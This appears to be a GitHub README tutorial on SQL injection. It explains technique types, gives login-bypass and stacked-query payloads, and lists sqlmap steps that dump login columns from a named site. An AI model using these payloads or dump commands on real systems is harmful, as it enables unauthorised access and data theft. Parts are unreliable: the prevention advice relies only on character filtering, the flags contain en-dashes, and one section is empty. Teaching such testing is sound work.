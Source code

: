# SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to application Server.

## Impact

A successful SQL injection attack can result in:
- Authentication Bypass 
- Unauthorized access of sensitive data, like: Personal user information, Passwords, Credit card details, etc.
- Attacker can obtain a persistent backdoor into an organization's systems.

## SQL Injection Technique

### 1. In-band SQLi (Classic SQLi)
   - ***Error-based SQLi:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
   - ***Union-based SQLi:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
 
### 2. Inferential SQLi (Blind SQLi)
   - ***Boolean-based:*** use Boolean condition(s) to verify whether certain conditions are true or false.
   - ***Time-based:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

### 2. Out-of-band SQLi
   This technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).

### Second-order SQL injection (also known as stored SQL injection):

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
<table>
<tr>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png) </td>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png) </td>
</tr>
</table>

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection
Filter out character like ' " - / \ ; NULL, etc. in all strings from:
- Input from users
- Parameters from URL
- Values from cookie

Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

